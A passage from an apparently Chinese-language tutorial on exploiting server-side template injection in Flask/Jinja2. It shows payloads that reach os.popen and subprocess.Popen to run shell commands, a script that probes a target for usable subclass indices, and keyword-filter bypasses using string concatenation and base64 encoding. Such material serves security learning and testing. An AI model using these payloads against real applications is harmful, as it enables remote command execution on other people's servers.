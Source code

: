 ```
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QChjGh6ibXIvT6MPINvaRMVicWnO6gYvDekibjaYXcShfQmSnLptialuvAQ/640?wx_fmt=png)image-20210308123038841

### 寻找 subprocess.Popen 类执行命令

从 python2.4 版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入 / 输出 / 错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：`os.system`、`os.popen` 等函数。

首先编写脚本遍历目标 Python 环境中含有 linecache 这个函数的子类的索引号：

```
import requestsheaders = {    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"    res = requests.get(url=url, headers=headers)    if 'linecache' in res.text:        print(i)# 得到索引为245
```

则构造如下 payload 执行命令即可：

```
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Qe0BdicrYrgxYU54tA4lU5DFlM2vsUnT5PvXx8Ta01uDgUx4BI3wLOXA/640?wx_fmt=png)image-20210308123807236

Flask-jinja2 SSTI Bypass 姿势
===========================

关键字绕过
-----

### 利用字符串拼接绕过

我们可以利用 “+” 进行字符串拼接，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

只要返回的是**字典类型**的或是**字符串格式**的，即 payload 中引号内的，在调用的时候都可以使用字符串拼接绕过。

### 利用编码绕过

我们可以利用对关键字编码的方法，绕过关键字过滤，例如用 base64 编码绕过：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```
